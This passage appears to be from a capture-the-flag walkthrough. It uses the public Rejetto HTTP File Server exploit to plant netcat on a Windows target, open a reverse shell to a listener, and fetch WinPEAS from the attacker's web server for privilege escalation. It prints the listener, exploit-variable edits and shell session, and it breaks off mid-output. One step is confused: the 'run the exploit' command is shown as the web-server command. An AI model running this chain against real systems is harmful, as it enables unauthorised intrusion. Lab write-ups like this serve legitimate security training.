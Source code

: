 ### References
- [Rejetto HTTP File Server RCE script](https://www.exploit-db.com/exploits/39161){:target="_blank"}
- [Netcat for windows](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe){:target="_blank"}
- [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe){:target="_blank"}


Download the `Rejetto HTTP File Server RCE script`, `Netcat for windows` and `WinPEAS` scripts.
{% capture code %}{% raw %}wget https://www.exploit-db.com/exploits/39161
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe{% endraw %}{% endcapture %} {% include code.html code=code %}

Start a `python web server`.
{% capture code %}{% raw %}python3 -m http.server 8080{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:80/) ...{% endraw %}{% endcapture %} {% include code.html code=code %}

Create a `netcat` listener.
{% capture code %}{% raw %}rlwrap -cAr nc -lnvp 4443{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 4443){% endraw %}{% endcapture %} {% include code.html code=code %}

Edit the downloaded exploit script `39161.py` to update `ip_addr` and `local_port`. Update the variable `vbs` with `remote port` and `netcat` binary name.
{% capture code %}{% raw %}ip_addr = "<source-ip>"      #local IP address
local_port = "4443"      # Local Port number
vbs = ip_addr+":8080%2Fnc.exe"      # add port{% endraw %}{% endcapture %} {% include code.html code=code %}

Run the python script `39161.py` to exploit, download the `netcat for windows` binary in target, and spawn a reverse shell.
{% capture code %}{% raw %}python3 -m http.server 8080{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}<target-ip> - - [27/Apr/2021 06:02:25] "GET /nc.exe HTTP/1.1" 200 -
<target-ip> - - [27/Apr/2021 06:02:25] "GET /nc.exe HTTP/1.1" 200 -
<target-ip> - - [27/Apr/2021 06:02:25] "GET /nc.exe HTTP/1.1" 200 -
<target-ip> - - [27/Apr/2021 06:02:25] "GET /nc.exe HTTP/1.1" 200 -{% endraw %}{% endcapture %} {% include code.html code=code %}

There will be a `reverse shell` spawned at the `netcat` listener.
{% capture code %}{% raw %}Connection from <target-ip> 49346 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> powershell -c wget "http://<source-ip>:8080/winPEASx64.exe" -outfile "winPEASx64.exe"
powershell -c wget "http://<source-ip>:8080/winPEASx64.exe" -outfile "winPEASx64.exe"

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> winPEASx64.exe cmd > output.txt
winPEASx64.exe cmd > output.txt

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> more output.txt
more output.txt
========================================(Services Information)========================================
[+] Interesting Services -non Microsoft-
